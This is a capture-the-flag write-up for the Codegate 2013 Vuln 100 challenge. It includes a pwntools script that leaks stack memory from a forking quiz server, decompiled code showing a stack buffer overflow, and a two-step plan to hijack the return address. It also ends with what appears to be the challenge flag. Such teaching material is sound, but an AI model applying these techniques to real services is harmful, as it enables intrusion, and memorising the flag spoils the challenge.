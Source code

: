 # Codegate 2013 Vuln 100 Writeup

## Initial Investigation

Simple forking server listens on port 6666.

    $ checksec.sh --file ./94dd6790cbf7ebfc5b28cc289c480e5e
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./94dd6790cbf7ebfc5b28cc289c480e5e

After answering some trivia, it asks for your name.

    $ nc localhost 6666
    Welcome to CODEGATE2013.
    This is quiz game.
    Solve the quiz.

    It is Foot Ball Club. This Club is an English Primier league football club. This Club founded 1886. This club Manager Arsene Wenger. This club Stadium is Emirates Stadium. What is this club? (only small letter)
    arsenal
    good!1
    It is a royal palace locate in northern Seoul, South Korea. First constructed in 1395, laster burned and abandoned for almost three centuries, and then reconstructed in 1867, it was the main and largest place of the Five Grand Palaces built by the joseon Dynasty. What is it?(only small letter)
    gyeongbokgung
    good!2
    He is South Korean singer, songwriter, rapper, dancer and record producer. He is known domestically for his humorous videos and stage performances, and internationally for his hit single Gangnam Style. Who is he?(only small letter)
    psy
    good!3
    rank write! your nickname:
    ebeip90
    ebeip9 very good ranke
    game the end

The thing to note immediately is that the name was truncated.  `nc` will wait until you hit enter to send the data, and terminate it with `'\n\x00'`.  Let's try this again in Python.
This example makes use of pwnies' [pwntools](https://github.com/pwnies/pwntools), see their github repo for more information.

```python
from pwn import *
r = remote('localhost',6666)
>>> [+] Opening connection to localhost on port 6666: Done
r.sendline('arsenal')
r.recvrepeat()
>>> [+] Recieving all data: Done
r.sendline('gyeongbokgung')
r.recvrepeat()
>>> [+] Recieving all data: Done
r.sendline('psy')
r.recvrepeat()
>>> [+] Recieving all data: Done
r.sendline('A\x00')
print hexdump(r.recvrepeat())
00000000  41 00 7c 40 ff 7f 00 00   a0 98 ae ed 52 7f 00 00  |A.|@........R...|
00000010  00 00 00 00 00 00 00 00   40 7e 7c 40 ff 7f 00 00  |........@~|@....|
00000020  90 0a 40 00 00 00 00 00   40 a7 e9 ed 52 7f 00 00  |..@.....@...R...|
...
```

## Reverse Engineering the Binary

Awesome, looks liek we're leaking data over the connection.  Let's take a look in IDA.
After getting past the trivia logic, we see the following code.

```c
// 0401133:
send("good!3\n", 7);
send("rank write! your nickname:\n", 0x1c);
recv(buffer, 0x800);
recv(buffer, 0x800);
sub_400C69(buffer);
```

It looks something like this:

```c
void sub_400C69(char* userInput) {
    char buffer[0x108];
    char* p_buffer = buffer;

    // Stack buffer overflow!
    memcpy(buffer, userInput, strlen(userInput));
    strcpy(p_buffer, buffer)

    g_buffer = p_buffer;
}
```

After returning from `sub_400C69`, we send the user back their name:

```c
send(sock, g_buffer, strlen(g_buffer)-1); // Leak!
send(sock, " very good ranker ", ...);
send(sock, "\ngame the end\n", ...)''
```

So far we have two distinct bugs -- `strlen(input)-1` and an unchecked memcpy of controlled
input into a stack buffer.  The stack is executeable, and since this is a forking server,
the stack addresses will not change in between runs.


## Exploitation

Exploitation will be two-step:

1. Find the stack address by sending a very short name string to dump the stack.
2. Send a crafted buffer to overflow the strcpy() destination pointer, and point
   it at <our buf+X>, where <X> is the number of bytes between the destination
   pointer and the return address.
   The memcpy() will overwrite the destination pointer, and the strcpy()
   will overwrite the return address.
   This will cause our buffer to start execution at offset +X.

**Keywords**: codegate 2013 vuln vuln100 vulnerability exploit Very_G00d_St6rt!!_^^